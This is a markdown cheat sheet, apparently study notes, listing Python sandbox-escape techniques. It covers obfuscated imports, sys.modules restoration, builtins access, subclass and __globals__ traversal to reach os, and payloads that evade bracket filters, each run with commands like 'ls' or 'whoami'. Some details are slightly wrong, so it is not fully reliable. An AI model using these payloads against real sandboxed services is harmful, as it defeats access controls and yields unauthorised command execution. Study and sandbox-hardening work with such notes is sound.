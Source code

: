 # Breaking out of sandbox

Ref : [https://programmer.help/blogs/python-sandbox-escape.html](https://programmer.help/blogs/python-sandbox-escape.html)

Ref : [https://github.com/se162xg/notes/issues/6](https://github.com/se162xg/notes/issues/6)

#### ways to import

```text
''' put some spaces or tabs in between import and module name '''

import  os
import    os
import        os
```

```text
os = __import__('os')
os.system('ls')
```

```text
import importlib
importlib.import_module('os').system('ls')
```

```text
''' import the library by executing it as a script file '''
''' use print('sys.path') to find the path to libraries '''

2.x
execfile('/usr/lib/python2.7/os.py')
system('ls')

2.x and 3.x
with open('/usr/lib/python3.6/os.py','r') as f:
    exec(f.read())
system('ls')
```

#### transform a string

reverse order, variable concatenation, base64, hex, rot13 and so on

```text
__import__('so'[::-1]).system('ls')
```

```text
b = 'o'
a = 's'
__import__(a+b).system('ls')
```

```text
'''eval / exec to execute a string'''

eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])
exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
```

```text
f3ck = __import__("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')
```

#### restore `sys.modules`

When `os` is removed from `sys.modules`, it cannot be used anymore.

```text
wrong way:

''' when importing a module, a new object would be created because there is not such a key in the dictionary'''
>>> del sys.modules['os']

correct way:

>>> sys.modules['os'] = 'not allowed'
>>> import os
>>> os.system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
```

bypass it

```text
sys.modules['os'] = 'not allowed' # 

del sys.modules['os']
import os
os.system('ls')
```

#### execute forbidden method

```text
import os
getattr(os, 'metsys'[::-1])('whoami')

os.__getattribute__('system')('ls')
```

#### built-in modules

```text
2.x __builtin__
3.x builtin
2.x and 3.x __builtins__
```

```text
>>> '__import__' in dir(__builtins__)
True
>>> 'eval' in dir(__builtins__)
True
>>> 'execfile' in dir(__builtins__)
True

>>> __builtins__.__dict__['__import__']('os').system('whoami')
```

reload built-in modules

```text
2.x 
reload(__builtins__)

3.x
import imp
imp.reload('__builtins__')
```

#### through inheritance

`mro` \(multiple resolution order\) indicates the multiple inheritance releationship of an object

```text
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

```text
>>> import site
>>> site.os
<module 'os' from '/usr/lib/python3.6/os.py'>

or

>>> import site
>>> os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'os' is not defined
>>> os = reload(site.os)
>>> os.system('whoami')
```

Every class inherits from a built-in class `object`, we can therefore list out its subclasses.

```text
>>> for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print(i)
...
(70, <type 'dict_values'>)
(71, <class 'site._Printer'>)
...
```

First use `__class__` 、`__mro__`、`__subclasses__`、`__bases__` to get an object, then go to `__globals__` to find some useful modules \ methods \ functions.

```text
>>> ''.__class__.__mro__[-1].__subclasses__()[71]._Printer__setup.__globals__['os']
```

#### `[` or `]` is filtered

We can reach to `pop()` or `__getitem__()`

```text
>>> ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.get('linecache').os.popen('whoami').read()
```

#### f-string

```text
>>> f'{__import__("os").system("whoami")}'
```

